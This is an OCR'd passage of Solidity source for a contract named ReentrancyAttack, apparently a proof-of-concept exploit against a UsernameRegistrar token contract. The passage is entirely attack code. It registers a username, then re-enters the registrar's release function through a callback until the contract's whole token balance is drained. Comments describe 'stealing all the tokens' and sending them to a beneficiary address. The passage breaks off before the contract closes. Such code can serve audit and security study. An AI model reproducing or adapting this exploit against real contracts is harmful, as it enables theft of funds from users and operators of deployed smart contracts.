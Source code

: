     contract ReentrancyAttack {
    
      UsernameRegistrar public usernameRegistrar;
      ERC20Token public token;
      // set an owner so someone else can't also use this attack
      address public owner;
      address public beneficiary; // the address to get all the stolen tokens
      bytes32 public registeredName; //for convenience
      uint public timesToReenter;
    
      constructor(
        UsernameRegistrar _unr,
        ERC20Token _token,
        address _beneficiary) public
      {
        usernameRegistrar = _unr;
        token = _token;
        beneficiary = _beneficiary;
        owner = msg.sender;
      }
    
      // this could be called in the constructor, but it's easier to run separately
      // once tokens have been sent here.
      function registerName(bytes32 name) public {
        require(msg.sender == owner); // prevent others from attacking
        registeredName = name;
        // approve tokens for  UsernameRegistrar
        token.approve(usernameRegistrar, usernameRegistrar.price());
        // register the name
        usernameRegistrar.register(name, 0x0, 0x0, 0x0);
      }
    
       // Once the registrar has been set to "this", we can steal all the tokens
       function stealAllTheTokens() public {
         require(msg.sender == owner); // prevent others from attacking
         require(registeredName != 0x0);
         // calculate the total balance and divide by price to determine
         // number of required re-entrancys'
         uint contract_balance = token.balanceOf(usernameRegistrar);
         uint price = usernameRegistrar.price();
    
         // revert if price=0 (controller can set it anyway)
         timesToReenter = contract_balance/price -1;
         // Re-enter a number of times.
         usernameRegistrar.release(registeredName);
    
         // all rentrancy done. Withdraw all the money
         // get our current balance of stolen funds
         uint balance = token.balanceOf(this);
         // transfer all our stolen money to beneficiary
         token.transfer(beneficiary, balance);
       }
    
      function dropUsername(bytes32 _nothing) public {
        if (timesToReenter > 0) {
           timesToReenter -= 1;
           usernameRegistrar.release(registeredName);
          }
        _nothing; //suppress warning
      }
    